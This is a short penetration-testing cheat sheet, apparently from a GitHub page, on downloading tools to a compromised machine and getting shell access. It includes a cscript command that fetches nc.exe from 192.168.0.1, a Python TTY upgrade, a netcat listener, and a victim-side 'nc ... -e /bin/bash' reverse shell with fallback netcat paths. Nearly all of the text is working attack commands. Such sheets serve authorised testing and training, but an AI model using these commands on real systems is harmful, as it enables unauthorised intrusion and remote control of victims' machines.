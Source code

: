 ### Download Files 

```bash
cscript wget.vbs http://192.168.0.1/nc.exe nc.exe
```

***

# Shells

***

## Upgrade Your Shell (TTY Shell)
```bash
python -c 'import pty;pty.spawn("/bin/bash");' 
```

***

## Enable Tab-Completion
1. In your active shell press `bg` to send your nc session to background
2. Enter `stty raw -echo`
3. Enter `fg` to bring your nc session to foreground
4. Enter `export TERM=xterm-256color`

***

## Catching Reverse Shells (Netcat)
*rlwrap enables the usage of arrow keys in your shell.*
https://github.com/hanslub42/rlwrap
```bash
rlwrap nc -nlvp 4444
```

***

## Netcat

### Reverse Shell

#### Unix

*Victim:*
```bash
nc 192.168.0.1 4444 -e /bin/bash
```
*If `-e` is not allowed, try to find other versions of netcat*

```bash
/bin/nc
/usr/bin/ncat
/bin/netcat
/bin/nc.traditional
```
